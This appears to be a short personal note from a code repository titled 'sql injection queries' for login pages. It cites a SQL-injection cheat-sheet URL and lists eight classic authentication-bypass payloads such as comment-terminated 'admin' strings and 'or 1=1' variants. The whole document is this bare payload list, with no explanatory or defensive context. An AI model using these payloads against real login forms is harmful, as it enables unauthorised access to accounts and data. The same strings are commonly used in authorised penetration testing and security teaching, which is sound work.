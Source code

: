# sql injection queries
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
for login pages

admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--

